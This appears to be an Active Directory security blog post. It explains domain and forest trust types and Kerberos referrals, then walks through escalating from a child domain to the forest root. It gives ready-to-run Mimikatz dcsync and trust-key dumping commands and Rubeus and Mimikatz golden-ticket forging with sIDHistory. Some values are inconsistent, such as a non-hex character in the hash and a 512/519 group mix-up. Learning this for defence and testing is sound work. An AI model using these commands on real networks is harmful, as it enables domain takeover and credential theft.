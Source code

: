```yaml
---
cover: https://i.postimg.cc/ZK6QqchB/trusts.jpg
title: "Infiltrating the Domain: Exploiting Active Directory Trusts"
date: 9/01/2024 5:22:33 +08:03
categories: research
tags: [Active Directory Trust]
toc: true
toc_number: false
---
```

# Overview
In active directory trust is a relationship between two domain or forest which allows users or groups of one domain or forest to authenticate and access resources of another domain or forest or vice versa. 

## One Way Trust
![One Way Trust](https://i.postimg.cc/Y9JV7Tgv/one-way-trust-drawio.png)
This is also known as one direction trust where users or groups in trusted domain can access resources in trusting domain but the reverse is not true. For example in a forest `alex.local` there is a child domain `development.alex.local` and there is another forest` dhital.local` which has its child domain `management.dhital.local`. If `development.alex.local` is configured to trust `management.dhital.local` then `development.alex.local` is the trusting domain wheares `management.dhital.local` is the trusted domain so users/groups in `management.dhital.local` can authenticate and access resources of `development.alex.local` but vice versa is not true.

## Two way trust(Bi-directional trust)
![](https://i.postimg.cc/XJ6t5TH9/bidirectional.jpg)
Two way trust also called as bi-directional trust is a trust relationship where users or groups of one domain or forest can access each other's resources. This type of trust is automatically created between domains inside a forest. For example in the above diagram The root domain is `alex.local` which has two child domains `development.alex.local` and `finance.alex.local`. Both development and finance can access each other resources as well as can access resource in `alex.local` itself.

**Note:** In a forest if one domain is compromised the entire forest can be compromised since domains inside a forest has bi-directional trust with each other. eg: If `management.alex.local` is compromised due to bi-directional parent child trust alex.local can be compromised.

## Transitive Trust
![](https://i.postimg.cc/2jPFDM8f/bi-directionall-drawio.png)
This kind of trust exists automatically between domains inside a forest. For example in a forest `alex.local` there are three domains development, finance and management. If `development.alex.local` has bi directional trust with `finance.alex.local` and `finance.alex.local` has bi directional trust with `management.alex.local` then development domain has bi directional trust automatically with management.

## Non transitive trust
It means if domain A trusts domain B and domain B trusts domain C then domain A does not trust domain C automatically and a separate trust needs to be established between them. This type of trust relationship automatically exists between two domains in different forest.

## Parent Child trust
This is same as bi-directional trust. It is created automatically between forest root and child domains. example: child domain `management.alex.local` and forest root which is the parent domain `alex.local` can access each other's resources.

## Tree root trust
It is automatically created between trees in a forest. For example in a forest alex.local there are three domains development, finance and management and management has child domain `in.management.alex.local`. If `in.management.alex.local` is compromised due to bi directional trust `management.alex.local` can be compromised and again due to bi-directional trust `alex.local` forest itself can be compromised.

## External trust
This needs to be created manually. This trust is manually established by enterprise administrator between domains in two different forests. For example: two forests `alex.local` and `dhital.local`. `alex.local` has two child domains `development.alex.local` and `management.alex.local`. The forest `dhital.local` has `sales.dhital.local` and `IT.dhital.local`. Here, enterprise administrators can setup one way or two way trust between `development.alex.local` and `sales.dhital.local` or with any other domain. 

## Kerberos working inside forest.
![](https://i.postimg.cc/0NPVhhW5/inter-forest-drawio.png)
Suppose a client in `management.alex.local` wants to access a service residing in parent domain `alex.local` how does he do it?
- The client asks for TGT with authentication server.(current domain's dc)
- The authentication server sends TGT to the client.(current domain's dc)
- The client presents this TGT along with spn `MSSQL\sql.alex.local` to the ticket granting server(current domain's dc) and asks for ST for MSSQL service residing in alex.io domain.
- The DC checks the spn and provides inter forest TGT(This inter forest TGT is encrypted using trust key for parent and child domains. This trust key is present in dc of both domains.)
- Client presents this inter forest TGT to DC of parent domain and asks for ST 
- The parent domain's DC decrypts this inter forest TGT using its own trust key and if successfull presents ST to the client.
- The client presents this service ticket to the service in parent domain.
- The service provides or denies access.

## Forging inter realm TGT via sIDHistory
sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory. sIDHistorycan be abused in two ways of escalating privileges within a forest:
- Extracting trust key and forging inter forest TGT by creating golden ticket and setting sIDHistory as enterprise administrator.
- Extracting krbtgt hash of current domain and forging inter realm TGT by creating golden ticket and setting sIDHistory as enterprise administrator.

### Forging inter realm TGT using krbtgt hash
First we need sid of domain admins group of target domain alex.local which is enterprise administrators as well. Using PowerView
```powershell
PS C:\Users\Alex\Desktop> Get-DomainGroup -Identity "Domain Admins" -Domain alex.local -Properties ObjectSid
```
We will also need sid of current domain which is management.alex.local
```powershell
PS C:\Users\Alex\Desktop> Get-DomainSID
```
Dump hash of krbtgt account of current domain by performing dcsync. Extract the aes256 hash.
```powershell
PS C:\Users\Alex\Desktop> Invoke-Mimikatz -Command '"lsadump::dcsync /user:mgmt\krbtgt"' -ComputerName mgmt-dc
```
Create golden ticket setting sIDHistory for enterprise administrator and pass the ticket into a logon session using `/ptt`
```powershell
PS C:\Users\Alex\Desktop> .\Rubeus.exe golden /aes256:31e7f323ade5689f7adfdfeee19de65ebc37c01a4790a7f38fb52e06563d5g8d /user:Administrator /domain:management.alex.local /sid:S-1-5-21-673305511-321244342-2457501623 /sids:S-1-5-21-4294361352-675613456-824644915-512 /nowrap /ptt
```
- aes256 is the hash of krbtgt account of current domain.
- sid is the sid of current domain.
- sids is the sid of parent domain.
Finally, access the dc of alex.local
```powershell
C:\Users\Alex\Desktop> ls \\dc.alex.local\ADMIN$
```
### Forging inter realm TGT using trust key
When the client sends its TGT and spn `MSSQL\sql.alex.local` to the ticket granting server of `management.alex.local` domain the ticket granting server sees the spn and realizes it is for parent domain `alex.local`. The Ticket Granting Server then sends the client inter realm TGT as in the above steps. This inter realm TGT is encrypted with trust key present in domain controller of both child and parent domain. If we have DA access on child domain we can simply extract this trust key and forge inter realm TGT setting sIDHistory as enterprise administrator and re-encrypt this forged inter realm TGT using the trust key and finally use this inter realm TGT to request ST for any service service on parent domain. We can simply request service ticket for cifs, host on domain controller of parent domain since we have forged inter real TGT as enterprise administrator.

Using mimikatz extract the trust keys look for trust keys [In] child.domain -> prent.domain and extract rc4.
```powershell
C:\Users\Alex\Desktop> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName mgmt-dc
```
Similarly as above get using PowerView get SID for current domain, get SID for Enterprise Administrator group of parent domain `519` is default here.
```powershell
C:\Users\Alex\Desktop> Invoke-Mimikatz "kerberos::golden /user:Administrator /domain:management.alex.local /sid:S-1-5-21-673305511-321244342-2457501623 /sids:S-1-5-21-4294361352-675613456-824644915-512 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:alex.local /ticket:C:\Users\Alex\Desktop\trust_tkt.kirbi" "exit"
```
- The first sid parameter is the sid of current domain
- The second sids parameter is the sid of enterprise administrators group of the parent domain 519 is default
- rc4 is the rc4 of the trust key
- target is parent domain
- ticket is the path to where the ticket should be saved.
We can use Rubeus to request service ticket for cifs on dc of parent domain and pass the ticket into logon session
```powershell
C:\Users\Alex\Desktop> Rubeus.exe asktgs /ticket:C:\Users\Alex\Desktop\trust_tkt.kirbi /service:cifs/dc-1.alex.local /dc:dc-1.alex.local /ptt
```
Access the DC of parent domain.
```powershell
C:\Users\Alex\Desktop> ls \\dc-1.alex.local\c$
```
